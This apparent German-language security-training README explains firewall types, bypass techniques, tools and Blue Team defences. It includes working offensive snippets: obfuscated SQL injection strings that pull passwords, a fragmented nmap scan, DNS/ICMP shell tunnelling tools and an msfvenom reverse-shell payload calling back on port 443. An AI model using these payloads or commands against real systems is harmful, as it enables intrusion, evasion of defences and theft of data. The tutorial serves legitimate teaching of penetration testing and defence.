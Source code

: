 # 🔥 Firewall Bypass – Techniken, Tools & Schutzmaßnahmen

---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Arten von Firewalls](#arten-von-firewalls)
- [Ziel von Firewall Bypass Techniken](#ziel-von-firewall-bypass-techniken)
- [Häufige Techniken zur Umgehung](#häufige-techniken-zur-umgehung)
- [Tools zur Analyse und Bypass](#tools-zur-analyse-und-bypass)
- [Verteidigungsmaßnahmen (Blue Team)](#verteidigungsmaßnahmen-blue-team)
- [Lernressourcen)](#lernressourcen)
- [Haftungsausschluss](#haftungsausschluss)

---

## Einleitung

Firewalls sind Sicherheitsmechanismen, die den Netzwerkverkehr auf Basis definierter Regeln filtern. Sie dienen dazu:
- **Unerlaubte Zugriffe zu verhindern**
- **Angriffsversuche zu erkennen**
- **Verbindungen zu blockieren oder zuzulassen**

Ein **Firewall Bypass** bezeichnet die **Umgehung dieser Filtermechanismen**, z. B. durch Tarnung oder Manipulation des Traffics. Dieses Wissen ist für **Pentester** und **Security Analysts** essenziell, um Schwächen in der Konfiguration zu erkennen.

---

## Arten von Firewalls

| Firewall-Typ            | Beschreibung                                         |
|--------------------------|------------------------------------------------------|
| Paketfilter (Stateless)  | Analysiert nur Header (z. B. IP, Port, Protokoll)   |
| Stateful Firewall        | Erkennt Verbindungskontexte (SYN → ACK etc.)        |
| Application Firewall     | Analysiert Inhalte auf Anwendungsebene (HTTP, FTP)  |
| Web Application Firewall (WAF) | Schutz vor typischen Web-Angriffen (SQLi, XSS)     |
| Host-Based Firewall      | Lokal auf Systemen (z. B. Windows Defender Firewall) |
| Next-Gen Firewalls       | Kombinieren mehrere Funktionen inkl. IDS/IPS        |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Ziel von Firewall Bypass Techniken

- Zugriff auf gesperrte Ports oder Dienste
- Umgehen von Inhaltsscans (z. B. bei WAFs)
- Vermeiden der Detektion durch Security-Systeme
- Platzieren von Payloads oder Backdoors

---

## Häufige Techniken zur Umgehung

### 1. **Tarnung über erlaubte Ports**
> Firewalls blockieren oft alles außer HTTP (80), HTTPS (443), DNS (53), usw.

Beispiel:
```bash
ncat --proxy-type http --proxy 192.168.1.1:8080 target.com 443
```

Oder:

- Reverse Shell über Port 443 senden
- Malware über Port 53 (DNS-Tunnel) exfiltrieren


### 2. Payload Obfuscation

    Inhalte verschleiern, um Signaturen zu umgehen (z. B. bei WAFs)

Beispiele:
```bash
# SQLi-Befehl verschleiert:
?id=1/**/UNION/**/SELECT/**/password/**/FROM/**/users

# Unicode-Encoding
?id=1%u002f%u002aUNION%u002f%u002aSELECT...

# Hex oder Base64 verschlüsselt
```

### 3. Fragmentierung von Paketen

Durch Aufteilen des Paketinhalts auf mehrere TCP-Segmente kann die Firewall umgangen werden, wenn sie keine vollständige Rekonstruktion vornimmt.

```bash
nmap -f target.com      # Fragmentierter Scan
```

### 4. Protocol Tunneling (DNS, ICMP, HTTP)

    Verbotene Protokolle über erlaubte Protokolle transportieren

Tools:

- dnscat2 – Shell über DNS
- iodine – Internet over DNS
- httptunnel – TCP-Tunnel via HTTP
- icmpsh – Shell über ICMP


### 5. Über Ports, die der Firewall "vertrauenswürdig" erscheinen

Reverse Shell über HTTPS:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f elf > shell.elf
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tools zur Analyse und Bypass

| Tool       | Zweck                                      |
| ---------- | ------------------------------------------ |
| Nmap       | Portscans, Fragmentierung, Timing          |
| Netcat     | Manuelle Verbindungen über beliebige Ports |
| Socat      | Flexible Verbindungstunnel                 |
| Metasploit | Automatisierte Payloads & Bypasses         |
| Iodine     | DNS-Tunnel                                 |
| ICMPshell  | Shell über Ping                            |

---

## Verteidigungsmaßnahmen (Blue Team)

- Port-Whitelisting: Nur notwendige Ports erlauben
- Deep Packet Inspection (DPI): Inhalte auch fragmentiert scannen
- Timeout-Management: Verhindert Time-based Evasion
- IDS/IPS-Systeme: Tools wie Snort oder Suricata zur Signaturerkennung
- WAF-Härtung: Regeln regelmäßig aktualisieren, Obfuskation erkennen
- Application Layer Filtering: DNS, HTTP, ICMP gezielt prüfen

---

## Lernressourcen

- TryHackMe: Rooms zu „Firewall Evasion“ und „Nmap Advanced“
- HackTheBox: Viele Labs mit WAF/Firewall-Herausforderungen
- YouTube: John Hammond, The Cyber Mentor – „Firewall Evasion Techniques“
- Bücher: „The Hacker Playbook 3“, „Nmap Network Scanning“

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!